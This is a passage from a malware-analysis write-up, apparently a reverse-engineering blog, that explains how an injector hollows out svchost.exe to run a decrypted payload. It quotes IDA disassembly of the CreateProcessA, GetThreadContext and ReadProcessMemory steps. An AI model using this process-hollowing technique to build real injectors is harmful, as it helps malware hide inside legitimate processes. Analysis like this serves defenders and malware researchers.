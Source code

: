 ```
.text:00401539      mov     edx, [ebp+decrypted_payload]
.text:0040153C      push    edx             ; payload
.text:0040153D      lea     eax, [ebp+svchost_path]
.text:00401543      push    eax             ; %SYSTEM%\\svchost.exe
.text:00401544      call    ProcessHollowing
```

The decrypted payload must have valid `MZ` and `PE` signatures, else the function exits (code not shown). 

Process hollowing starts with the creation of a new process in a suspendend state:

```
.text:00401145      lea     edx, [ebp+ProcessInformation]
.text:00401148      push    edx             ; lpProcessInformation
.text:00401149      lea     eax, [ebp+StartupInfo]
.text:0040114C      push    eax             ; lpStartupInfo
.text:0040114D      push    0               ; lpCurrentDirectory
.text:0040114F      push    0               ; lpEnvironment
.text:00401151      push    CREATE_SUSPENDED ; dwCreationFlags
.text:00401153      push    0               ; bInheritHandles
.text:00401155      push    0               ; lpThreadAttributes
.text:00401157      push    0               ; lpProcessAttributes
.text:00401159      push    0               ; lpCommandLine
.text:0040115B      mov     ecx, [ebp+svchost_path] %SYSTEM%\\svchost.exe
.text:0040115E      push    ecx             ; lpApplicationName
.text:0040115F      call    ds:CreateProcessA
```

Then, the injector needs the imagebase of the newly created process. To find it, it reads the field `ImageBaseAddress` in the [PEB](https://terminus.rewolf.pl/terminus/structures/ntdll/_PEB32_x86.html) of the target process. To locate the PEB of the target process, it accesses the context of its main thread with `GetThreadContext`:

```
; get ctx
.text:00401184      mov     edx, [ebp+lpContext]
.text:00401187      mov     [edx+CONTEXT.ContextFlags], CONTEXT_FULL
.text:0040118D      mov     eax, [ebp+lpContext]
.text:00401190      push    eax             ; lpContext
.text:00401191      mov     ecx, [ebp+ProcessInformation.hThread]
.text:00401194      push    ecx             ; hThread
.text:00401195      call    ds:GetThreadContext ; get context of main thread (suspended svchost)

; get PEB.ImageBaseAddress
.text:004011B8      push    0               ; lpNumberOfBytesRead
.text:004011BA      push    4               ; nSize
.text:004011BC      lea     edx, [ebp+imagebase_svchost]
.text:004011BF      push    edx             ; output
.text:004011C0      mov     eax, [ebp+lpContext]
.text:004011C3      mov     ecx, [eax+CONTEXT._Ebx] ; EBX->PEB
.text:004011C9      add     ecx, 8          ; @[EBX+8] = image base of svchost
.text:004011CC      push    ecx             ; lpBaseAddress
.text:004011CD      mov     edx, [ebp+ProcessInformation.hProcess]
.text:004011D0      push    edx             ; hProcess
.text:004011D1      call    ds:ReadProcessMemory ; read 4 bytes @EBX+8
```
